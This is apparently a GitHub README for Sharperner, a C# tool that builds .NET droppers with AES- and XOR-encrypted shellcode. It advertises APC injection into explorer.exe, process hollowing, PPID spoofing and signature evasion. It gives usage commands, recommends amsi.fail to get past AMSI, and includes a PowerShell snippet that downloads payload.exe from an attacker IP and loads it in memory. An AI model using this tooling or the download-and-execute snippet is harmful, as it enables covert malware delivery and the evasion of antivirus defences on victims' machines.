# Sharperner
**Sharperner** is a tool written in CSharp that generate .NET dropper with AES and XOR obfuscated shellcode. Generated executable can possibly bypass signature check but I cant be sure it can bypass heuristic scanning. 

![](./src/images/scan.PNG)

### Features
* Support multiple shellcode input
* AES + XOR encrypted shellcode
* APC Process Injection (explorer.exe)
* Process Hollowing + PPID Spoofing
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code :)

### Usage
```
/file       B64,hex,raw shellcode
/type       cs,cpp
/out        Output file Location (Optional)

Example:
Sharperner.exe /file:file.txt /type:cpp
Sharperner.exe /file:file.txt /out:payload.exe
```

### Suggestion
To avoid touching the disk, Generated .NET executable can be loaded reflectively with powershell. AMSI is the enemy now, [amsi.fail](https://amsi.fail) ftw!
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/payload.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[TotallyNotMal.Program]::Main()
```